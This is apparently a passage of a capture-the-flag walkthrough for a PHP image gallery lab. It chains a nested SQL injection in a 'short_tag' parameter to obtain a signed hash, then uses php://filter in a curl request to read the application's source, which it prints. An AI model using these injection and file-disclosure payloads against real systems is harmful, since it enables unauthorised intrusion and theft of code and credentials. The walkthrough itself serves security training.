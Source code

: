 <h3>album.php</h3>

```bash
php://filter/convert.base64-encode/resource=album.php
```

<img width="1345" height="260" alt="image" src="https://github.com/user-attachments/assets/9db1d8d6-0f38-4032-a0ca-b9161f1c9695" />

```bash
7068703a2f2f66696c7465722f636f6e766572742e6261736536342d656e636f64652f7265736f757263653d616c62756d2e706870
```

```bash
http://TargetIP/album.php?short_tag=smart=-5166' UNION SELECT "0 UNION SELECT 1,2,0x7068703a2f2f66696c7465722f636f6e766572742e6261736536342d656e636f64652f7265736f757263653d616c62756d2e706870-- -"-- -
```

<img width="1049" height="87" alt="image" src="https://github.com/user-attachments/assets/beba3459-40c1-458b-9f70-28df4c849bd6" />

<img width="1053" height="176" alt="image" src="https://github.com/user-attachments/assets/3058984f-b24a-45c7-ac4e-637c4c3dc960" />

<p>image.php</p>

<img width="656" height="56" alt="image" src="https://github.com/user-attachments/assets/6cd2ccaf-43fc-4156-b5bb-b3e0a07d79aa" />

<br>

<h3>curl</h3>

<p>

-  $hash = hash_hmac('sha256', $path, $SECRET_KEY);<br>
-  echo '<a href="/image.php?hash='. $hash . '&path=' . $path . '">';<br>
-  echo '<img src="/image.php?hash='. $hash . '&path=' . $path . '" alt="Image path: ' . $path . '">';</p>


```bash
:~/Moebius# curl -s 'http://TargetIP/image.php?hash=ec6e518b7e39db98affbf2bf2c671d469639503d4fee97bf7cf0f0a1319075d9&path=php://filter/convert.base64-encode/resource=album.php' | base64 -d
<!DOCTYPE html>
<html lang="en">
<head>
<meta charset="UTF-8">
<meta name="viewport" content="width=device-width, initial-scale=1.0">
<title>Image Grid</title>
<link rel="stylesheet" href="/style.css"> <!-- Link to external CSS file -->
</head>
<body>

<?php

include('dbconfig.php');

try {
    // Create a new PDO instance
    $conn = new PDO("mysql:host=$servername;dbname=$dbname", $username, $password);
    
    // Set PDO error mode to exception
    $conn->setAttribute(PDO::ATTR_ERRMODE, PDO::ERRMODE_EXCEPTION);
    
    if (preg_match('/[\/;]/', $_GET['short_tag'])) {
        // If it does, terminate with an error message
        die("Hacking attempt");
    }

    $album_id = "SELECT id from albums where short_tag = '" . $_GET['short_tag'] . "'";
    $result_album = $conn->prepare($album_id);
```